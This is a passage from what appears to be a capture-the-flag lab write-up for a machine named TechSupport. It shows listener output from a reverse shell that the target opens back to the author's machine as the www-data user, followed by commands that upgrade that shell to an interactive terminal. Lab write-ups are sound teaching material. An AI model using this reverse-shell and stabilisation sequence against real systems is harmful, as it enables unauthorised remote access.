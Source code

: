 ![](images/techsupp0rt18.png)

<br>

I set up a listener on my system and when I click the link in that screenshot under the get info box we get a reverse shell back:

```
listening on [any] 4444 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.64.125] 45476
Linux TechSupport 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 03:01:54 up  3:36,  0 users,  load average: 0.00, 0.01, 2.60
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

I stabilize my shell with python3:

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

`CTRL + Z to background our shell`

`stty raw -echo; fg`

`export TERM=xterm-256color`
